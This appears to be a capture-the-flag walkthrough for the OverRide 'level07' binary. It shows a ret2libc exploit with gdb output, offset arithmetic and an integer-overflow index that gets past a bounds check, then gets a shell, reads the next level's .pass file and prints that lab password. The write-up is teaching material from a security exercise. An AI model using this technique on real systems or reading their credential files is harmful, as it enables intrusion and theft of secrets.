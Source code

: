 # Level07 walkthrough

If we run our program, we can see that we have only three commands for
store, read data and exit. Let's dive into gdb.
In the first part of the main function program will make kind of bzero for argv and envp.
Good thing—there is not any check for position to store and read data from except
the index can't be divisible by 3.
Our goal is to rewrite the return address of the main function to address of system function and pass address of /bin/sh as argument.
First of all - let's find the address of system function and /bin/sh string.
```gdb
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
We can see that the address of the system function is `0xf7e6aed0` and address of /bin/sh is `0xf7f897ec`.

Let's find the address of buffer in memory. To do that, we can set breakpoint on store function and check the address of buffer.
Inside store function set a breakpoint and check ebp+0x8.
```gdb
Input command: store
 Number: 42
 Index: 1

Breakpoint 1, 0x080486c8 in store_number ()
(gdb) x /x $ebp+0x8
0xffffd400:	0xffffd424
```
Okay, we have address of buffer - `0xffffd424`. Now it's time to find the address of EIP.
Let's set breakpoint before store function and check the address of EIP.
```gdb
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
...
(gdb) i f
Stack level 0, frame at 0xffffd5f0:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd5e8, args:
 Locals at 0xffffd5e8, Previous frame's sp is 0xffffd5f0
 Saved registers:
  ebx at 0xffffd5dc, ebp at 0xffffd5e8, esi at 0xffffd5e0, edi at 0xffffd5e4, eip at 0xffffd5ec
```
eip is 0xffffd5ec. Now we can calculate offset between buffer and EIP.
```python
0xffffd5ec - 0xffffd424
456
456 / 4
114.0
```
Offset is 114. Now we can start to exploit program.
We can't use 114 as index because it's divisible by 3. But we con overflow integer to pass this check.
```
( 4294967296 / 4 ) + 114 ) = 1073741938
```
So now we should store the address of system function (0xf7e6aed0 == 4159090384) to index 114 (1073741938) and
address of /bin/sh (0xf7f897ec == 4160264172) to index 116. After exit from the program, the next eip will be the address of system function.
```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
Aaaand we're done.
